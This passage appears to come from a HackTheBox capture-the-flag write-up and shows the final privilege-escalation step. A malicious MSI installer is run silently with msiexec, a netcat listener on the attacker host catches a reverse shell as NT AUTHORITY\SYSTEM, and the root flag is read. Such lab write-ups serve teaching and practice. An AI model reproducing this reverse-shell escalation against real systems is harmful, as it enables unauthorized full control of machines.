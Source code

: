 Now I just need to run it with `msiexec`:



    C:\ProgramData>msiexec /quiet /qn /i rev.msi



This returns nothing, but there's a shell at my listening `nc`:



    oxdf@parrot$ rlwrap nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 61878
    Microsoft Windows [Version 10.0.19042.867]
    (c) 2020 Microsoft Corporation. All rights reserved.

    C:\WINDOWS\system32>whoami
    nt authority\system



I can grab the root flag from the administrator's desktop:



    C:\Users\Administrator\Desktop>type root.txt
    82f9ddad************************







